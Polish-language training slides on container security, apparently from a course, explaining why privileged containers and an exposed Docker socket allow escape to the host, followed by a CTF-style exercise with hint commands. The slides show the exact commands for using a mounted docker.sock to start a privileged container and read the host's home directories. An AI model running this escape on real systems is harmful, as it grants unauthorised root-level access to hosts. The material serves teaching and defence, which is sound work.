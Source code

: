 W branży mówi się [Priviledged Containers are not containers](https://ericchiang.github.io/post/privileged-containers), bo wyłamanie się z takiego kontenera jest banalnie proste. Możliwości doboru parametrów `docker run` powodują, że NIGDY nie ma prawdziwej potrzeby do uruchamiania uprzywilejowanych kontenerów "na prodzie".

```sh
docker run --rm -it --privileged ubuntu:24.04
```

---

# Docker socket

Program linii poleceń `docker` wykonuje swoje zadania za pomocą komunikacji z serwerem HTTP, który jest osadzony przez demon dockera w pliku `/var/run/docker.sock`. Możemy sprawdzić dostępne obrazy używając `curl`:

```sh
curl --silent --unix-socket /var/run/docker.sock http://localhost/images/json
```

Jeżeli wystawimy ten socket do kontenera, kontener może go użyć do stworzenia innego kontenera z większymi uprawnieniami - na przykład dodać `--priviledged`.

```sh
docker run --rm -it -v /var/run/docker.sock:/exposed.sock typicalam/ubuntu:24.04
root@18a87c42e0e1:/# docker --host unix:///exposed.sock run --rm -it \
        --privileged -v /home:/RED typicalam/ubuntu:24.04
root@ffbf863c07ba:/# ls /RED
adam  agatka
```

Jak widać dostaliśmy uprzywilejowany kontener, oraz mamy dostęp do katalogu domowego HOSTA. Tak się dzieje dlatego, że gniazdo dockera jest tak naprawdę obsługiwane przez docker demon hosta!

---

# Praktyka

## Skok w bok

Twoim zadaniem jest zdobycie flagi `root`, środowisko jest autorskie, więc może się chwilę odpalać:

```sh
ssh -p pop3 redentry@piaseczny.dev # Zastanów się jakie jest hasło ;)
```

Przydatne:

```sh
capsh
find / -name "docker.sock"
cat /run/FLAGA.txt
mount
```

---
